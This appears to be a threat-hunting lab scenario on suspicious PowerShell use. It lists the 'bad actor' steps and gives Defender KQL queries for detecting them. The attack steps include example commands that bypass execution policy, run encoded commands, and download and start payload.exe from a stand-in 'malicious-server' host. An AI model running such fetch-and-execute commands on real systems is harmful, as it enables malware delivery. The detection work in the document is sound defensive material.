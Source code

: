 # Threat Event (Suspicious PowerShell Usage)
**Suspicious PowerShell Script Execution**

## Steps the "Bad Actor" Took Create Logs and IoCs:
1. Launch PowerShell in a suspicious manner (e.g., via `cmd.exe`, or another indirect method).
2. Execute encoded commands using `-encodedCommand` or download malicious scripts from external sources.
   - Example command: `powershell.exe -NoProfile -ExecutionPolicy Bypass -EncodedCommand <Base64EncodedPayload>`
3. Download malicious payload from a remote server using `Invoke-WebRequest` or `Invoke-Expression`.
   - Example command: `Invoke-WebRequest -Uri http://malicious-server/payload.exe -OutFile "payload.exe"`
4. Execute the downloaded payload.
   - Example: `Start-Process -FilePath "payload.exe"`

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents                                                            |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose**| Used to detect execution of suspicious PowerShell commands (e.g., `powershell.exe -encodedCommand`). |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents                                                           |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table |
| **Purpose**| Used to detect suspicious network activity, including communication with external servers that may host malicious payloads. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents                                                              |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table |
| **Purpose**| Used to detect file activity, such as the creation and deletion of files associated with the attack (e.g., payload.exe). |

---

## Related Queries:
```kql
// PowerShell execution with encoded command
DeviceProcessEvents
| where FileName == "powershell.exe" and ProcessCommandLine contains "-encodedCommand"
| project Timestamp, DeviceName, ActionType, ProcessCommandLine

// PowerShell executed using indirect methods (e.g., cmd.exe or wininit.exe)
DeviceProcessEvents
| where FileName in~ ("cmd.exe", "wininit.exe") and ProcessCommandLine contains "powershell"
| project Timestamp, DeviceName, ActionType, ProcessCommandLine

// Suspicious network activity (downloading payload)
DeviceNetworkEvents
| where InitiatingProcessFileName == "powershell.exe" and RemoteUrl contains "malicious-server"
| project Timestamp, DeviceName, RemoteIP, RemoteUrl, RemotePort

// Detect payload download attempt using Invoke-WebRequest
DeviceProcessEvents
| where ProcessCommandLine contains "Invoke-WebRequest" and ProcessCommandLine contains "payload.exe"
| project Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// Deletion of suspicious files (e.g., payload.exe)
DeviceFileEvents
| where FileName == "payload.exe" and ActionType == "Deleted"
| project Timestamp, DeviceName, FileName, ActionType
```

---

## Created By:
- **Author Name**: James Harrington
- **Author Contact**: https://www.linkedin.com/in/Goodk47/
- **Date**: January 24, 2024

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**
